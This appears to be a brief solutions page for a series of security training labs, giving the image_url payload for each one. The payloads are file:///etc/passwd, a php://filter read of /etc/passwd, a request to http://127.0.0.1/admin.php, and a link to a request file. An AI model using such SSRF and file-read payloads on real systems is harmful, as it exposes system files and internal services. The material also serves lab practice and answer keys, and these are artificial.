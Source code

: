 ## Lab 1
   image_url= `file:///etc/passwd`

## Lab 2
   image_url= `php://filter/resource=/etc/passwd`

## Lab 3
   image_url= `http://127.0.0.1/admin.php`

## Lab 4
   Send this: [request](./lab4/src/test/request.http)